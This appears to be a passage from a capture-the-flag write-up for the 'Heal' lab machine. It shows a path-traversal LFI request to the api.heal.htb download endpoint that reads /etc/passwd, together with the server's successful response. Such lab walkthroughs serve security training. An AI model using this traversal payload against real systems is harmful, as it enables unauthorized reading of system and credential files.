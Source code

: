 ![Pasted image 20250207183003.png](/assets/img/img_Heal/Pasted%20image%2020250207183003.png)
## Heal API LFI
Playing around with the `POST` request sent by the `download` button we can find an `LFI`
- `api.heal.htb/downloads?filename=`
```http 
GET /download?filename=../../../../../../../../../../etc/passwd HTTP/1.1
Host: api.heal.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ
Origin: http://heal.htb
Connection: keep-alive
Referer: http://heal.htb/
```
```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 07 Feb 2025 07:38:00 GMT
Content-Type: application/octet-stream
Content-Length: 2120
Connection: keep-alive
access-control-allow-origin: http://heal.htb
access-control-allow-methods: GET, POST, PUT, PATCH, DELETE, OPTIONS, HEAD
access-control-expose-headers: 
access-control-max-age: 7200
x-frame-options: SAMEORIGIN
x-xss-protection: 0
x-content-type-options: nosniff
x-permitted-cross-domain-policies: none
referrer-policy: strict-origin-when-cross-origin
content-disposition: attachment; filename="passwd"; filename*=UTF-8''passwd
content-transfer-encoding: binary
cache-control: no-cache
x-request-id: 0a9cf58b-919f-471f-a15e-9f19bf0a5579
x-runtime: 0.002584
```